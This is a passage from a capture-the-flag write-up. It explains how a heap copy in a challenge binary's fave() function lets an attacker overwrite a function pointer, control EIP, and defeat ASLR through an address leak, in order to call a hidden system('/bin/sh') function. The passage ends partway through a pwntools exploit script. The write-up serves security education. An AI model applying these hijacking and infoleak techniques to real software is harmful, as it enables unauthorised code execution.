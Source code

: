 **If we can control this dword, we can control EIP when we later print the vector's information.**

As it turns out, we can, in fact, control this dword if we save our vector sum (**v3**) 4 times and have set **v3->d** to be equal to our desired address we'd like to call.
 
The code responsible for this is located in the `fave()` function.
{% highlight C %}
faves[i] = malloc(sizeof(struct vector));
memcpy(faves[i], (int*)(&v3)+i, sizeof(struct vector));
{% endhighlight %}

It copies a `struct vector` size number of bytes from **v3**, starting from **v3->d**, to the 4th heap chunk in **faves**, if we populate the **faves** global array with 4 heap chunks.

This first dword of this heap chunk is later copied into the first dword of our desire vector when we call `loadFave()`.

## Infoleak
In order for us to be able to leverage this vulnerability to gain a shell, we must bypass ASLR through an infoleak in order to dynamically calculate the address of the `thisIsASecret()` function, which calls `system("/bin/sh");`.

An easy way we can do that is by entering data into **v1**, which assigns the `printFunc` function pointer the address of `printVector()`, and then printing out the vector information of **v1**. 

This will leak the address of `printVector()` which we can then use to calculate the address of `thisIsASecret()` using their known offsets from the base address of the ELF executable.

Putting everything together, the following solution granted me a shell.

## Solution
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def enter_data(vector, a, b, c, d, e, f, g, h, i, parse = False):
    r.sendline("1")
    r.sendline(str(vector))
    r.sendline(str(a))
    r.sendline(str(b))
    r.sendline(str(c))
    r.sendline(str(d))
    r.sendline(str(e))
    r.sendline(str(f))
    r.sendline(str(g))
    r.sendline(str(h))
    r.sendline(str(i))
    if parse:
        return r.recvuntil("COMMAND: ")   
    else:
        r.recvuntil("COMMAND: ")

def sum_vectors(parse = False):
    r.sendline("2")
    if parse:
        return r.recvuntil("COMMAND: ")   
    else:
        r.recvuntil("COMMAND: ")

def print_vector(vector, parse = False):  
    r.sendline("3")
    r.sendline(str(vector))
    if parse:
        return r.recvuntil("COMMAND: ")
    else: